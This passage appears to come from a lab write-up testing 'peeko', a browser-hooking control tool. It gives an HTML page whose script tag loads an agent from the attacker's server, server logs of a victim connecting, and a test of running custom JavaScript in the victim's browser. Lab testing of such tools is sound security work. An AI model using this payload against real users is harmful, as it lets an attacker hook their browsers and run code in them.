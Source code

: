 #### 3.2.2 Creating and opening infected page

The easiest way how to simulate a **Victim** is to simply open the page `https://10.3.10.99:8443/static/infect.html` in the browser on your **Victim**'s machine.

Alternatively you can create simple HTML page and publish it on your web server or just save it as `payload.html` into the `Document` folder on the **Victim**'s machine:

```html
<html>
<body>
	<script src="https://10.3.10.99:8443/static/agent.js"></script>
	<h1>Hello victim!</h1>
</body>
</html>
```

> [!info]
> If you use this method, bear in mind, that the **peeko** server use self-signed certificate, which is not automatically trusted by your web browser, so the request for `https://10.3.10.99:8443/static/agent.js` will fail with an invalid SSL certificate error. The solution is to visit the **peeko** server from the **Victim**'s browser first and tell the browser, that you trust the site.

When you open the infected page, you can immediately see a new entry in the **peeko Control Panel** and there are also following entries in the **peeko** server logs:

```
INFO:     10.3.10.22:52008 - "GET /static/agent.js HTTP/1.1" 200 OK
INFO:     10.3.10.22:52010 - "WebSocket /ws" [accepted]
INFO:     connection open
[+] Victim connected: victim-1 (10.3.10.22)
```

Obviously, the connection last only as long, as the user keeps the page opened in their browser. When they close it, the connection is lost:

```
[-] Victim disconnected: victim-1
INFO:     connection closed
```

#### 3.2.3 Testing peeko features

##### Custom JavaScript to Execute

I tried simple `alert('Hello victim!');` and it worked very well:

![Custom Javascript](/assets/images/JavascriptAlert.png)
